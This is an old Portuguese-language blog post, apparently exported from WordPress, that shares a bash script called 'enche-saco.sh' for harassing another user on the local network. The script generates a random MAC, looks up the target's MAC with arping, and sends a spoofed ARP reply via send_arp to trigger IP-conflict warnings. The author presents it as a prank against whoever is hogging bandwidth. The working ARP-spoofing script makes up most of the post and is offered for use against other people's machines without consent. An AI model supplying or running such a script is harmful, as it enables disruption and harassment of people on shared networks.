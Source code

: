 ```yaml
---
id: 11
title: conflito de IPs
date: 2010-09-22T13:54:32+00:00
author: paolo
layout: post
guid: http://paoloo.wordpress.com/?p=11
permalink: /2010/09/22/conflito-de-ips/
categories:
  - pt-BR
tags:
  - hacks
  - not-really-useful
---
```

Sabe aquelas horas quando voce precisa fazer um download? quando alguem esta baixando porno no megaupload e voce precisa pegar aquele driver de 1MB ou quando voce so quer fazer gracinha mesmo? Para essas e outras ocasiões existe o enche-saco.sh (nome generico sem criatividade) cujo proposito é simular um conflito entre IPs na rede local, causando chateação na pessoa incoveniente que nao te deixa usar os recursos de rede ;D

<div id="_mcePaste">
  <pre class="brush: bash; title: ; notranslate" title="">
#!/bin/bash
echo [+] inicializando...
CHATOIP=$1
MEUMAC="`od -An -N10 -x /dev/random | md5sum | sed -r 's/^(.{12}).*$/\1/; s/([0-9a-f]{2})/\1:/g; s/:$//;'`"
CHATOMAC="`arping -fc 1 $CHATOIP 2&gt;/dev/null | grep "Unicast" | cut -d[ -f 2 | cut -d] -f 1`"
echo [+] sabotando $CHATOIP [ $CHATOMAC ]...
send_arp $CHATOIP $MEUMAC $CHATOIP $CHATOMAC
echo [+] feito.
</pre>
</div>

<pre><span style="font-family:Georgia, 'Times New Roman', 'Bitstream Charter', Times, serif;line-height:19px;white-space:normal;font-size:13px;">Depois, um # ./enche-saco IP(como root, devido ao arp) enche o saco da pessoa incoveniente através de mensagens de conflito de IP. Isto tem um impacto significantemente maior contra o windows(e é mais divertido de ver tambem haha so fazer o teste xp).</span></pre>